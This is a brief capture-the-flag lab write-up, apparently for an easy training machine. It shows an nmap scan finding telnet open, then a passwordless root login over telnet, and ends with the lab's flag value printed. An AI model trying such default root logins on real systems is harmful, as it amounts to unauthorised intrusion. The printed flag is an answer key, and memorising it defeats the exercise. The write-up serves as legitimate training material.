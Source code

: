 # telnet (linux)

## Scan

```bash
nmap -sV 10.129.45.137

# PORT   STATE SERVICE VERSION
# 23/tcp open  telnet  Linux telnetd
```

port 23 (telnet) is open, we can connect to the machine using telnet.

## Exploit

```bash
telent 10.129.45.137

# Trying 10.129.45.137...
# Connected to 10.129.45.137.
# Escape character is '^]'.

# Meow login: 
```

We try root first.

```bash
# Meow login: root
# Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
```

Success (no password required?).

```bash
$ ls
# flag.txt  snap
$ cat flag.txt
# b40abdfe23665f766f9c61ecba8a4c19
```
